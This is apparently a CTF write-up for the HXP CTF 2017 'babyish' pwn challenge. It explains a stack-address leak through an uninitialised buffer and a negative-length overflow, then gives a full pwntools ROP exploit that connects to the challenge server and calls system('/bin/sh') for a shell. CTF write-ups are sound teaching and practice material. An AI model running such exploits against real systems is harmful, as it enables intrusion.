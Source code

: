 ```yaml
---
title: HXP CTF 2017 - babyish
date: '2017-11-24'
lastmod: '2019-04-07T13:46:27+02:00'
categories:
- writeup
- hxp2017
tags:
- pwn
- rop
authors:
- dp1
---
```


For this challenge we get a small binary that first asks and prints a name and then reads a string.
Our first vulnerability lies in the `greet` function, where the stack allocated buffer isn't cleared before use.

```cpp
void __cdecl greet(FILE *in, FILE *out)
{
  int v2; // eax
  char buf[64]; // [esp+0h] [ebp-48h]

  printf("Enter username: ");
  v2 = fileno(in);
  read(v2, buf, 64u);
  fprintf(out, "Hey %s", buf);
}
```

Thus when the name is printed back, we get access to some stack variables. In particular, we can leak a libc address and a saved `esp` value.
Having all needed addresses, all that's left to do is overflow the second read by giving it a negative length and rop our way from there.

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  char buf[64]; // [esp+0h] [ebp-5Ch]
  int len; // [esp+40h] [ebp-1Ch]
  int *v7; // [esp+50h] [ebp-Ch]

  v7 = &argc;
  setbuf(stdout, 0);
  greet(stdin, stdout);
  sleep(1u);
  printf("Enter length: ");
  len = num();
  if ( len > 63 )
  {
    puts("No!");
    exit(1);
  }
  printf("Enter string (length %u): ", len);
  v3 = fileno(stdin);
  read(v3, buf, len);
  puts("Thanks, bye!");
  return 0;
}
```
There is still one small detail, though: at the end of main the saved value of esp is loaded back from the stack, so we actually have to add this value into our payload to make the application work. This is the relevant assembly at the end of main:
```cpp
.text:080487E2 010                 pop     ecx ; This loads the saved esp value
.text:080487E3 00C                 pop     ebx
.text:080487E4 008                 pop     esi
.text:080487E5 004                 pop     ebp
.text:080487E6 000                 lea     esp, [ecx-4] ; And here it is restored
.text:080487E9 000                 retn
```

Finally, we can call system and get a shell:
`hxp{b4bY's_2nd_pwn4bLe}`

---
Full exploit script:
```python
from pwn import *

#r = process('./vuln')
r = remote('35.198.98.140', 45067)

r.recvuntil(':')
r.sendline('AAAABBBBCCCCDDD')
leak = r.recvuntil('Enter length:')
stack_leak = u32(leak[21:25])
libc_base = u32(leak[25:29]) - 0xCD18
print 'libc base:  ' + hex(libc_base)
print 'stack leak: ' + hex(stack_leak)

rop = ''
rop += p32(libc_base + 0x3A840) # system
rop += p32(0x08048471) # pop; ret
rop += p32(libc_base + 0x15CD48) # "/bin/sh"

r.sendline('-4294967286')
r.sendline('A' * 80 + p32(stack_leak + 0x10) + 'A' * 28 + rop)

r.interactive()
```
